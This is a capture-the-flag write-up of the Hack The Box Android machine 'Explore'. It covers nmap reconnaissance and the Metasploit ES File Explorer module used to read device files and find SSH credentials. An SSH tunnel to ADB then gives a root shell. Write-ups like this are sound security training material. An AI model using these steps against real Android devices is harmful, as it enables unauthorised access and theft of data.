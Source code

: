 ```yaml
---
title: "📦 HTB - Explore"
date: 2021-07-29 13:00:00
tags: ["htb", "writeup"]
author: "0xNinja"
showToc: true
TocOpen: false
draft: false
hidemeta: false
comments: false
disableShare: false
disableHLJS: false
hideSummary: false
searchHidden: true
ShowReadingTime: true
ShowBreadCrumbs: true
ShowPostNavLinks: true
cover:
    image: box.png
---
```


> Pretty interesting box, first time seeing Android in HTB.

## TL;DR

Exfilter files on device using ES File explorer exploit, get user credentials. Root is straightforward with ADB.

## Footholds

With `nmap` we get the following:

```
# Nmap 7.91 scan initiated Wed Jul 28 14:49:28 2021 as: nmap -A -p- -o nmap.out explore.htb
Nmap scan report for explore.htb (10.10.10.247)
Host is up (0.043s latency).
Not shown: 65530 closed ports
PORT      STATE    SERVICE VERSION
2222/tcp  open     ssh     (protocol 2.0)
| fingerprint-strings: 
|   NULL: 
|_    SSH-2.0-SSH Server - Banana Studio
| ssh-hostkey: 
|_  2048 71:90:e3:a7:c9:5d:83:66:34:88:3d:eb:b4:c7:88:fb (RSA)
5555/tcp  filtered freeciv
33195/tcp open     unknown
[...]
```

* `2222`: SSH server
* `5555`: not interesting, we will see why further
* `33195`: ES File Explorer (with some research)

The only useful port here is `33195`, with a litle research on the web we get that this is possibly a good entrypoint for our exploit.

## User

As this is an easy box ~~and I am lazy~~ I used the forbidden **M e t a s p l o i t**. Using it's `auxiliary/scanner/es_file_explorer_open_port` exploit I managed to exfilter some files off the device:

![Listpics](listpics.png)

We found some Pictures on the device. The `creds.jpg` is very interesting:

![Getfile](getfile.png)

We can now ssh to the device and get `user.txt`.

![creds](creds.jpg)

![User](user.png)

## Root

The idea that came to my mind here was to use ADB to get a root shell on the device. We first need to connect to this device with ADB, so we have to make a tunnel:

```sh
ssh -p 2222 user@explore.htb -L 5555:localhost:5555
```

![Tunnel](tunnel.png)

We can now connect to it:

```sh
adb connect localhost:5555
adb root
adb shell
```

![root](root.png)

![root2](root2.png)

End of the box.

![Rooted](rooted.png)
